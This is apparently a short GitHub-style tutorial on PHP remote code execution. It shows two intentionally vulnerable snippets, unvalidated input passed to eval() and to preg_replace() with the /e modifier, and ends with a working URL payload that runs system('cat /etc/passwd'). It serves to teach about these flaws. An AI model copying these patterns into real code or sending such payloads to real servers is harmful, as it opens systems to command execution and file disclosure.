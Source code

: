 ### PHP Code Execution via eval() function
```
In the vulnerable code below eval() function is used without any input validation. This
allows user  to control the value passed via name paramater allowing attacker to execute system commands.

```

```
<?php
  if (!isset($_GET["name"])) {
    header("Location: /?name=fucche");
    die();
  }
?>

<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

#### Exploit 
![Screenshot at 2022-11-20 12-54-23](https://user-images.githubusercontent.com/85208639/202890506-4fa06e60-4e3e-4e6e-a675-a6c9b714283f.png)

### PHP Code Execution via preg_replace() function [ Works in Older Version of PHP (<= 5.5.5) ]
```
preg_replace is a function in php that is used to replace a string with another string based on pattern. In older version of php if we add full controller pattern we can add modifier and  after replacement we can use modifier to eval result as a php code.
```


#### Vulnerable Code

Here a value is taken from paramater base, matches the pattern with string "user" and if the pattern matched, it replaces the string with test. Upon
adding e flag after regex the application executes the final string test as a php code.

```
<?php
  if (!isset($_GET["new"])) {
    header("Location: /?new=test&pattern=/user/&base=Hello user");
    die();
  }
?>

<?php
  echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]); 
?>
```

#### Exploit 
http://localhost/?new=system('cat /etc/passwd')&pattern=/user/e&base=Hello user

